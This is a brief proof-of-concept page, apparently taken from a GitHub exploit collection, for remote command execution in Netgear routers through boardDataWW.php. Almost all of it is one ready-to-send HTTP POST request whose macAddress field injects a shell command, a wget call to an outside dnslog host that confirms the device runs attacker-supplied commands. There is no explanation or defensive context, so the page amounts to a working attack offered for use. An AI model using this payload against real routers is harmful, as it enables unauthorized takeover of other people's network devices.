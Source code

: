 # netgear_boarddataWWW_rce

from: https://github.com/wy876/POC/blob/main/Netgear%E8%B7%AF%E7%94%B1%E5%99%A8boardDataWW.php%E5%AD%98%E5%9C%A8RCE%E6%BC%8F%E6%B4%9E.md 
@2 2024.3.25
```
POST /boardDataWW.php HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded

macAddress=112233445566%3Bwget+http%3A%2F%2Fnstucl.dnslog.cn%23&reginfo=0&writeData=Submit
```
